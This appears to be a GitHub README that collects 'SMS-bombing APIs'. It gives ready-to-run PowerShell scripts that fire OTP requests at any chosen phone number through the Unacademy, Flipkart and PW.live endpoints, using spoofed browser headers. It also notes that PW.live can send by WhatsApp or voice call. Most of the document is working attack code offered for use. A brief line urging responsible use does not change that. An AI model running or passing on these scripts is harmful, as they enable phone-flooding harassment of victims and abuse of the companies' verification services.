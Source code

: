 # Bombing-Api Collection 🚀

A meticulously curated and continuously updated repository of **SMS-bombing APIs** designed for developers to access various services for sending bulk SMS. Explore the collection below and stay tuned for exciting new additions coming soon!

## Unacademy SMS API
This API allows sending OTP requests to phone numbers via the Unacademy platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://unacademy.com/api/v3/user/user_check/?enable-email=true"
$body = @{
    phone        = "<PHONE_NUMBER>"
    country_code = "IN"
    otp_type     = 1
    email        = ""
    send_otp     = $true
    is_un_teach_user = $false
} | ConvertTo-Json

$headers = @{
    "Origin"     = "https://unacademy.com"
    "Referer"    = "https://unacademy.com/"
    "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    "X-Platform" = "0"
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

## Flipkart OTP Generate API
This API enables sending OTP requests to phone numbers via the Flipkart platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://1.rome.api.flipkart.com/api/7/user/otp/generate"

$body = @{
    loginId = "<PHONE_NUMBER>"   # Must include country code (e.g., +91...)
} | ConvertTo-Json

$headers = @{
    "Origin"         = "https://www.flipkart.com"
    "Referer"        = "https://www.flipkart.com/"
    "User-Agent"     = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    "X-User-Agent"   = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 FKUA/website/42/website/Desktop"
    "Accept"         = "*/*"
    "Content-Type"   = "application/json"
    "Sec-Fetch-Site" = "same-site"
    "Sec-Fetch-Mode" = "cors"
    "Sec-Fetch-Dest" = "empty"
    "Sec-Ch-Ua"      = "\"Chromium\";v=\"139\", \"Not;A=Brand\";v=\"99\""
    "Sec-Ch-Ua-Mobile" = "?0"
    "Sec-Ch-Ua-Platform" = "\"Windows\""
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

## PW.live (Penpencil) OTP Resend API
This API facilitates resending OTP requests to phone numbers via the PW.live platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://api.penpencil.co/v1/users/resend-otp?smsType=0"

$body = @{
    mobile         = "<PHONE_NUMBER>"        # Replace with user’s mobile number
    organizationId = "5eb393ee95fab7468a79d189"
} | ConvertTo-Json

$headers = @{
    "Origin"         = "https://www.pw.live"
    "Referer"        = "https://www.pw.live/"
    "User-Agent"     = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36"
    "Sec-Ch-Ua"      = "\"Not=A?Brand\";v=\"24\", \"Chromium\";v=\"140\""
    "Sec-Ch-Ua-Mobile" = "?0"
    "Sec-Ch-Ua-Platform" = "\"Windows\""
    "Content-Type"   = "application/json"
    "Accept"         = "*/*"
    "Accept-Language" = "en-GB,en;q=0.9"
    "Sec-Fetch-Site" = "cross-site"
    "Sec-Fetch-Mode" = "cors"
    "Sec-Fetch-Dest" = "empty"
    "Randomid"       = "2ade3b08-62fe-4507-9440-3b361783061c"   # This looks like a UUID; you may regenerate dynamically
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

### Uses
- `smsType=0`: Sends OTP via SMS
- `smsType=1`: Sends OTP via WhatsApp
- `smsType=2`: Sends OTP via Call

## What's Next?
- More APIs will be added soon to expand your options for bulk SMS services.
- Stay updated for enhanced documentation and additional examples.

*Note*: Use these APIs responsibly and in compliance with applicable laws and terms of service.
